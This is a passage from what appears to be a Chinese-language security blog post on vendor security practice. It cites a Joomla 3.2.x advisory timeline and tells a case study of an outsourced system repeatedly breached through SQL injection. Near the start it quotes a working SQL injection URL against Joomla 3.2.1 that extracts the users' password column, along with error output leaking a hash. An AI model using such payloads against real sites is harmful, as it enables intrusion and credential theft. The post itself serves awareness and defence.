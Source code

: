 Now i can easily exploit this flaw:
 
http://localhost/Joomla_3.2.1/index.php/weblinks-categories?id=0%20%29%20union%20select%20password%20from%20%60k59cv_users%60%20--%20%29
and obtain the hash:
 
1054 Unknown column '$P$D8wDjZpDIF4cEn41o0b4XW5CUrkCOZ1' in 'where clause' SQL=SELECT `m`.`tag_id`,`m`.`core_content_id`,`m`.`content_item_id`,`m`.`type_alias`,COUNT( `tag_id`) AS `count`,`t`.`access`,`t`.`id`,`ct`.`router`,`cc`.`core_title`,`cc`.`core_alias`,`cc`.`core_catid`,`cc`.`core_language` FROM `k59cv_contentitem_tag_map` AS `m` INNER JOIN `k59cv_tags` AS `t` ON m.tag_id = t.id INNER JOIN `k59cv_ucm_content` AS `cc` ON m.core_content_id = cc.core_content_id INNER JOIN `k59cv_content_types` AS `ct` ON m.type_alias = ct.type_alias WHERE `m`.`tag_id` IN ($P$D8wDjZpDIF4cEn41o0b4XW5CUrkCOZ1) AND t.access IN (1,1) AND (`m`.`content_item_id` <> 0 ) union select password from `k59cv_users` -- ) OR `m`.`type_alias` <> 'com_weblinks.categories') AND `cc`.`core_state` = 1 GROUP BY `m`.`core_content_id` ORDER BY `count` DESC LIMIT 0, 5
 
CheerZ>
{% endhighlight %}

值得注意一看的是[官方公告](http://developer.joomla.org/security/578-20140301-core-sql-injection.html)，上面標註著漏洞回報時間以及修補時間。2014/2/6 接獲回報，2014/3/6 修復。在這整整一個月的時間之內，所有適用版本內的 Joomla! 網站都將受此漏洞影響。因此套件廠商的反應修復速度越慢，顧客暴露在風險之中的時間越長。

{% highlight html %}
Project: Joomla!
SubProject: CMS
Severity: High
Versions: 3.1.0 through 3.2.2
Exploit type: SQL Injection
Reported Date: 2014-February-06
Fixed Date: 2014-March-06
CVE Number: Pending
{% endhighlight %}

### 案例說明：外包廠商

 <iframe src="//embed.gettyimages.com/embed/147456329?et=tHsuT-4nxk-4NvmLZycwCA&amp;sig=Z5X7iFr5V9vS70tCT49wQA8EldpRXSuV3jpoBtgTmg4=" width="507" height="406" frameborder="0" scrolling="no"> </iframe>

這樣的情境你是否熟悉？

公司有一套客製化的系統需要建置，但是因為公司內部開發人員不足，因此把這個系統外包出去給廠商做。貨比三家不吃虧，比了 A B C 三家，發現 A 家最便宜實惠，交貨時間又短。決定就把這個系統發包給 A 廠商做。半年過去了，這個廠商順利交貨結案。

一年過後，發現這個系統竟然遭到入侵，主動攻擊內部其他伺服器。「不是有買防火牆嗎？怎麼還會被入侵？」老闆說。這可嚴重了，馬上找廠商來刮一頓。沒想到，A 廠商表示，該案已經順利結案，維護期也已經過了，沒辦法提供協助，除非繼續簽訂維護合約。問題總得解決，簽訂了維護合約之後，A 廠商也協助把病毒砍掉了。圓滿結束？事情有那麼簡單嗎？

過了兩天，系統又開始攻擊其他伺服器。「病毒不是已經砍掉了嗎？」老闆說。問題在哪大家應該都很清楚。在尋找資安廠商協助之下，發現主機是因為 A 廠商設計的系統含有漏洞，導致 SQL Injection 問題，遭攻擊者利用植入惡意程式。A 廠商百般無奈，摸摸鼻子把這個漏洞修補起來。又過了兩天，再度遭到入侵。看了看，發現又是另一個 SQL Injection 問題。在幾次與攻擊者的不斷角力之下，終於好像把問題都修完了。

過了一週，系統再度有惡意程式的蹤跡，A 廠商也無能為力。資安廠商表示，買這個就對了！在陸續被迫買了防火牆、WAF、IDS 等設備後，雖然問題貌似改善，但系統仍然零星有入侵事件發生。公司只好「斷然處置」，等待下次預算，另請廠商重新開發系統。

* 問題 1：該系統是否還有其他漏洞？
* 問題 2：公司的處置是否正確？
* 問題 3：A 廠商的其他客戶是否有類似的問題？
* 問題 4：不是有買資安設備？為什麼還會有資安事件？
* 問題 5：公司該如何自保？
* 問題 6：廠商該如何自保？
